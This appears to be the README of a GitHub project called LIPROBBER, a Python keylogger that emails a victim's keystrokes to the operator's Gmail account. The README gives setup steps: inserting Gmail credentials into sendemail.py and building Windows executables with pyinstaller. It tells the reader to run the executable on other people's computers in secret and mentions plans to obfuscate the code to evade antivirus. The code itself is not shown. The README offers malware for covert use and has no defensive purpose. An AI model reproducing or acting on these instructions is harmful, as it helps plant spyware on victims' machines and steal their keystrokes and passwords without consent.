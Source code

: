 # LIPROBBER
This keylogger sends key values victim pressed to your gmail.

*This tool infects target pc.

---

# Usage

1. You need to create your app password first.

2. Then write your app password and gmail in these code..
      -sendemail.py
        
        line 25, msg['To'] = 'your gmail'
        line 26, msg['From'] = 'your gmail'
        
        line 43, server.login('your gmail', 'your app password')

3. Save sendemail.py

4. Thats it, you need to convert three python files(LIPROBBER-0220.py, keyloggerv4.py, sendemail.py) to execution files using pyinstaller -w -F [filename.py]

5. Then all set, To run these, the exe files should be in same folder.



But the problem is software keyloggers get caught by computer vaccine very easily.


I'll study about how to obfuscate code.

# HOW TO RUN IT
 - Run LIPROBBER-0220.exe(converted to exe file) on others computer secretly.
